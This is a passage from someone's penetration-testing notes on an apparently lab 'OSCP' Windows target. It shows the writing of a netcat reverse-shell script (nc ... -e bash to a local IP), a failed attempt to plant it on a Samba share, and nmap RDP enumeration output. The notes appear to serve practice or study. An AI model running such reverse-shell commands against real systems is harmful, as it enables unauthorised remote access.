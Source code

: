```sh
echo "#!/bin/sh
nc 192.168.48.128 4444 -e bash" > rev.sh
```

set permissions
```sh
chmod +x rev.sh && chmod 777 rev.sh
```

now mount the samba share to add it to the folder
```sh
sudo mount -t cifs -o rw,noexec //192.168.128.111/AnneAuto /tmp/anne
```

```sh
sudo cp rev.sh anne/
```
	cp: cannot create regular file 'anne/rev.sh': Permission denied

Sources:
- https://www.systranbox.com/how-to-connect-to-smb-using-guest-account-kali-linux/
- https://www.hackingarticles.in/a-little-guide-to-smb-enumeration/
### Port 3389 - RDP
3389/tcp open  ms-wbt-server Microsoft Terminal Services
| ssl-cert: Subject: commonName=oscp
| Issuer: commonName=oscp
| Public Key type: rsa
| Public Key bits: 2048
| Signature Algorithm: sha256WithRSAEncryption
| Not valid before: 2023-08-10T09:07:03
| Not valid after:  2024-02-09T09:07:03
| MD5:   e99d:8341:a0af:07a1:a945:cca6:313b:31ca
|_SHA-1: 6d48:86da:9152:5489:1009:ea14:962a:eab3:8b64:bf4b
|_ssl-date: 2023-09-15T12:53:42+00:00; -52d05h02m20s from scanner time.
| rdp-ntlm-info: 
|   Target_Name: OSCP
|   NetBIOS_Domain_Name: OSCP
|   NetBIOS_Computer_Name: OSCP
|   DNS_Domain_Name: oscp
|   DNS_Computer_Name: oscp
|   Product_Version: 10.0.17763
|_  System_Time: 2023-09-15T12:53:00+00:00
Service Info: OS: Windows; CPE: cpe:/o:microsoft:windows
